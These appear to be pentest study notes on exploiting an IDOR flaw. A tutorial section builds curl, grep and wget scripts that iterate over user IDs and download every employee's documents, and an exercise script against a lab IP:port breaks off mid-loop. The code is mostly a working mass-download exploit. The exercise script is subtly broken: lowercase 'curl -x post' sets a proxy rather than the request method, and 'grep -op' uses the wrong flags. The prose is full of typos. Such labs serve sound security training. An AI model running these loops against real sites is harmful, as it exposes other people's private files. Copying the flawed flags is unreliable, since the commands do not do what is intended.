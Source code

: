 We must be attentive to the page details during any web pentest and always keep an eye on the source code and page size.
This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end.

- Mass Enumeration:
Try manually accessing other employee documents with uid=3, uid=4, and o on. Manually accessing file is not efficeint in a real work eviroment with hundreds or thousends of employees.
We can click on [CTRL+SHIFT+C] in Firefox to enable the element inspector, and then click on any of the links to view their HTML source code, and we will get the following:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
We cna pick any unique word to be able to grep the link of the file. We see thgat each link starts with , so we may cuirl the page and grep for this line as:
```sh
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
As we can see were able to capture the document links successfully, we may now use specific bash command to trim the extra parts and only get the document links in the output.
It's better practicse to use a Regex pattern that matches strings between /document and .pdf which we can use with gerp.

```sh
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```
Now we can use a simple for loop to loop over the uid parameter and return the document of all employees, and then use wget to download each document link:
```sh
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
We run the script, it will download all documents from all employees with uids between 1-10, thus successfully exploting the IDOR vulnerability to mass enumerate the document of all employess.
Exercise code:
```sh

#!/bin/bash

base_url="http://94.237.57.57:55116"

for uid in {1..20}; do
    echo "[*] revisando uid $uid..."
    curl -s -x post -d "uid=$uid" "$base_url/documents.php" | \
    grep -op '/documents[^"]+\.txt' | while read -r txt_file; do
        echo "  [+] posible flag: $txt_file"
        full_url="$base_url$txt_file"
```